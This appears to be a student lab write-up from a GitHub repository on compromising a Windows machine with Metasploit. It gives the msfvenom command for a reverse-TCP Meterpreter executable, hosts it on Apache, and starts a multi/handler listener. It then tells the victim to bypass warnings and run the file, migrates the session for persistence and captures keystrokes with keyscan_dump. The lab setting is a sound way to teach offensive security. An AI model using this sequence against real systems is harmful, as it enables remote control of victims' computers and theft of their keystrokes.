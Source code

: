 Compromising windows using Metasploit
Metasploit

Compromising windows using Metasploit
AIM:

To Compromise windows using Metasploit .
DESIGN STEPS:
Step 1:

Install kali linux either in partition or virtual box or in live mode
Step 2:

Investigate on the various categories of tools as follows:
Step 3:

Open terminal and try execute some kali linux commands
OUTPUT:

![280442420-54fd799e-0076-4a17-bf93-6dbc1aa42616](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/9fc9fe94-c417-44b6-a0fb-9f4c90fed9ce)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![280442460-04ceff39-1fbe-4361-bca3-b851daad372f](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/5caed90d-eeaa-416d-8e6a-819f5c5bf90e)


copy the fun.exe into the apache /var/www/html folder ![280442496-ac2a0aa4-7bde-4410-a933-304df04ce31f](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/6b0acb22-92ad-40e0-beaa-8defd3a027c1)


Start apache server sudo systemctl apache2 start ![280442530-540832c2-a032-4a9a-848b-e14f860b2bd5](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/2fb50559-5938-49b4-b6be-9757cdb0a7ef)


Check the status of apache2 ![280442562-a57a2348-c4de-4fb2-a465-904b37cfb9b0](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/67a253d4-d257-4e81-8a28-499b5c0ce1ab)


Invoke msfconsole:
OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit ![280442630-9aa19a10-610e-4743-83cd-f59011002911](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/35759e69-33d1-45be-a5c2-34598853cf5d)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. ![280442661-7ee54804-21c1-4c37-9aea-468f1c00dda1](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/475c09b3-75d2-4a11-a00f-3720c954e288)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit image ![280442689-410a522c-76c1-4167-be8e-802769ae87f8](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/58117e5f-64c9-435f-af76-7e45cf3be7f7)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 ![280442732-0f965d4a-97b7-4797-9966-75188d713fc3](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/48b464f9-f146-41cc-aaed-534e02df701e)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted ![280442797-84ffdbba-6b4f-446e-8185-af7fef514caa](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/4f97250f-58f3-4d68-8123-b2bf58c57649)


keyscan_dump Shows the keystrokes captured so far ![280442832-f5f4a0a2-39cf-4592-9459-4840c30e9745](https://github.com/Bakkiyalakshmi29/Compromising-windows-using-Metasploit/assets/119406233/86d24b54-f783-482c-9f31-aa0fdc2172f9)

RESULT:

The Metasploit framework is used to compromise windows and is examined successfully.
